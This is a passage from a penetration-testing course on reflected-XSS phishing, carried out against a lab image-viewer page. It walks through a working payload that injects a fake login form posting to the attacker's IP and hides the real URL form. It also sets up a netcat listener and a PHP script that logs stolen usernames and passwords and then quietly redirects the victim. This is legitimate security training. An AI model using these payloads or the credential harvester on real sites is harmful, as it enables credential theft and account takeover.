 # Phishing

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

Furthermore, suppose we were to identify an XSS vulnerability in a web application for a particular organization. In that case, we can use such an attack as a phishing simulation exercise, which will also help us evaluate the security awareness of the organization's employees, especially if they trust the vulnerable web application and do not expect it to harm them.

***

## XSS Discovery

We start by attempting to find the XSS vulnerability in the web application at `/phishing` from the server at the end of this section. When we visit the website, we see that it is a simple online image viewer, where we can input a URL of an image, and it'll display it:

Visiting [`http://SERVER_IP/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg`](http://server_ip/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg) :

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

This form of image viewers is common in online forums and similar web applications. As we have control over the URL, we can start by using the basic XSS payload we've been using. But when we try that payload, we see that nothing gets executed, and we get the `dead image url` icon:

Visiting [`http://SERVER_IP/phishing/index.php?url=<script>alert(window.origin)</script>`](http://server_ip/phishing/index.php?url=%3Cscript%3Ealert\(window.origin\)%3C/script%3E) :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So, we must run the XSS Discovery process we previously learned to find a working XSS payload. `Before you continue, try to find an XSS payload that successfully executes JavaScript code on the page`.

{% hint style="info" %}
**Tip:** To understand which payload should work, try to view how your input is displayed in the HTML source after you add it.
{% endhint %}

***

## Login Form Injection

Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.

We can easily find an HTML code for a basic login form, or we can write our own login form. The following example should present a login form:

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

In the above HTML code, `OUR_IP` is the IP of our VM, which we can find with the (`ip a`) command under `tun0`. We will later be listening on this IP to retrieve the credentials sent from the form. The login form should look as follows:

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

Next, we should prepare our XSS code and test it on the vulnerable form. To write HTML code to the vulnerable page, we can use the JavaScript function `document.write()`, and use it in the XSS payload we found earlier in the XSS Discovery step. Once we minify our HTML code into a single line and add it inside the `write` function, the final JavaScript code should be as follows:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

We can now inject this JavaScript code using our XSS payload (i.e., instead of running the `alert(window.origin)` JavaScript Code). In this case, we are exploiting a `Reflected XSS` vulnerability, so we can copy the URL and our XSS payload in its parameters, as we've done in the `Reflected XSS` section, and the page should look as follows when we visit the malicious URL:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Cleaning Up

We can see that the URL field is still displayed, which defeats our line of "`Please login to continue`". So, to encourage the victim to use the login form, we should remove the URL field, such that they may think that they have to log in to be able to use the page. To do so, we can use the JavaScript function `document.getElementById().remove()` function.

To find the `id` of the HTML element we want to remove, we can open the `Page Inspector Picker` by clicking \[`CTRL+SHIFT+C`] and then clicking on the element we need:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we see in both the source code and the hover text, the `url` form has the id `urlform`:

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

So, we can now use this id with the `remove()` function to remove the URL form:

```javascript
document.getElementById('urlform').remove();
```

Now, once we add this code to our previous JavaScript code (after the `document.write` function), we can use this new JavaScript code in our payload:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

When we try to inject our updated JavaScript code, we see that the URL form is indeed no longer displayed:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:

```html
...PAYLOAD... <!-- 
```

As we can see, this removes the remaining bit of original HTML code, and our payload should be ready. The page now looks like it legitimately requires a login:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form. You can try visiting the URL to ensure that it will display the login form as intended. Also try logging into the above login form and see what happens.

***

## Credential Stealing

Finally, we come to the part where we steal the login credentials when the victim attempts to log in on our injected login form. If you tried to log into the injected login form, you would probably get the error `This site can’t be reached`. This is because, as mentioned earlier, our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a `site can’t be reached` error.

So, let us start a simple `netcat` server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:

```shell-session
$ sudo nc -lvnp 80
listening on [any] 80 ...
```

Now, let's attempt to login with the credentials `test:test`, and check the `netcat` output we get (`don't forget to replace OUR_IP in the XSS payload with your actual IP`):

```shell-session
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

As we can see, we can capture the credentials in the HTTP request URL (`/?username=test&password=test`). If any victim attempts to log in with the form, we will get their credentials.

However, as we are only listening with a `netcat` listener, it will not handle the HTTP request correctly, and the victim would get an `Unable to connect` error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call `index.php` and place it in `/tmp/tmpserver/` (`don't forget to replace SERVER_IP with the ip from our exercise`):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Now that we have our `index.php` file ready, we can start a `PHP` listening server, which we can use instead of the basic `netcat` listener we used earlier:

```shell-session
al1abb@htb[/htb]$ mkdir /tmp/tmpserver
al1abb@htb[/htb]$ cd /tmp/tmpserver
al1abb@htb[/htb]$ vi index.php #at this step we wrote our index.php file
al1abb@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Let's try logging into the injected login form and see what we get. We see that we get redirected to the original Image Viewer page:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we check the `creds.txt` file in our Pwnbox, we see that we did get the login credentials:

```shell-session
$ cat creds.txt
Username: test | Password: test
```

With everything ready, we can start our PHP server and send the URL that includes our XSS payload to our victim, and once they log into the form, we will get their credentials and use them to access their accounts.
